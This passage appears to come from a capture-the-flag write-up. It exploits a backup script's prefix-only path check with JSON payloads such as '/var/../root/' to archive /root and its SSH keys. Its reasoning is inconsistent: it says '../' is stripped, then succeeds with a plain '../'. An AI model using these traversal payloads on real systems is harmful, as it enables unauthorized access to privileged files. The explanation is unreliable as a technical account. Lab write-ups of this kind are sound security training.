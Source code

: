 ```bash
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

### Understanding the Vulnerability

The script has a critical flaw in its path validation logic:

1. It only checks if paths **start with** `/var/` or `/home/`
2. The `jq` filter removes `../` sequences, but only after the path validation
3. We can use **path traversal** to bypass restrictions

### Exploitation Strategy

Initial failed attempts:

```json
{
    "destination": "/home/martin/backups/",
    "directories_to_archive": ["/root/.ssh/"]
}
```
> Error: /root/.ssh/ is not allowed ❌

```json
{
    "destination": "/home/martin/backups/",
    "directories_to_archive": ["/var/../../../../../../root/.ssh/"]
}
```
> Error: Still blocked after jq processing ❌

### Successful Bypass

The key insight: start with an allowed path, then traverse **before** the security check evaluates the final path:

```json
{
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/../root/"
  ]
}
```

### Executing the Exploit

